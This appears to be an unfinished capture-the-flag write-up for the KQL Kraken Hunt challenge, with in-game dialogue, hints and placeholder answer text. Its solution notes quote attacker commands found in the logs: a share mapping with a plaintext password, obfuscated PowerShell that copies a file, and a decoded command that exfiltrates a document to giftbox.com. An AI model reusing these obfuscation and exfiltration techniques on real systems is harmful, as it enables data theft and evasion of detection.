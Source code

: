 ```yaml
---
icon: material/text-box-outline
---
```


# KQL Kraken Hunt (submitted after deadline)

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Kusto Detective](https://detective.kusto.io/sans2023)

## Objective

!!! question "Request"
    Use Azure Data Explorer to uncover misdeeds in Santa's IT enterprise. Go to Film Noir Island and talk to Tangle Coalbox for more information.

??? quote "Tangle Coalbox"
    Greetings, rookie. Tangle Coalbox of Kusto Detective Agency here.

I've got a network infection case on Film Noir Island that needs your expertise.

Seems like someone clicked a phishing link within a client's organization, and trouble's brewing.

I'm swamped with cases, so I need an extra pair of hands. You up for the challenge?

You'll be utilizing the Azure Data Explorer and those KQL skills of yours to investigate this incident.

Before you start, you'll need to create a free cluster.

Keep your eyes peeled for suspicious activity, IP addresses, and patterns that'll help us crack this case wide open.

Remember, kid, time is of the essence. The sooner we can resolve this issue, the better.

If you run into any problems, just give me a holler, I've got your back.

Good hunting, and let's bring this cyber criminal to justice.

Once you've got the intel we need, report back and we'll plan our next move. Stay sharp, rookie.

## Hints

??? tip "Outbound Connections"
    Do you need to find something that happened via a process? Pay attention to the ProcessEvents table!

??? tip "KQL Tutorial"
    Once you get into the Kusto trainer, click the blue Train me for the case button to get familiar with KQL.
    
??? tip "File Creation"
    Looking for a file that was created on a victim system? Don't forget the FileCreationEvents table.

## Solution

    Notes: Case 4 time stamp for the command to list network shares was actually not correct. The challenge accepted the timestamp of the net /share command rather than net use.
    
    Powershell code found:
    
    Invoke-WmiMethod -ComputerName $Server -Class CCM_SoftwareUpdatesManager -Name InstallUpdates - ArgumentList (, $PendingUpdateList) -Namespace root[&ccm&]clientsdk | Out-Null



cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123


( 'txt.tsiLeciNythguaN\potkseD\:C txt.tsiLeciNythguaN\lacitirCnoissiM\$c\erahselifeloPhtroN\\ metI-ypoC c- exe.llehsrewop' -split '' | %{$_[0]}) -join ''

translates to: powershell -c Copy-Item \\NorthPoleFiles\c\MissionCritical\NiceList.txt C:\Desktop\NiceList.txt



[StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv '*MDr*').NamE[3,11,2]-joiN

converted to text:
downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file
    
...


### Images

![MS Copilot help](../img/objectives/o13/decoded_from_ms_copilot.PNG)


!!! success "Answer"
    Insert the answer to the objective here.

## Response

!!! quote "Tangle Coalbox"
    Copy the final part of the conversation with Elf Name here.

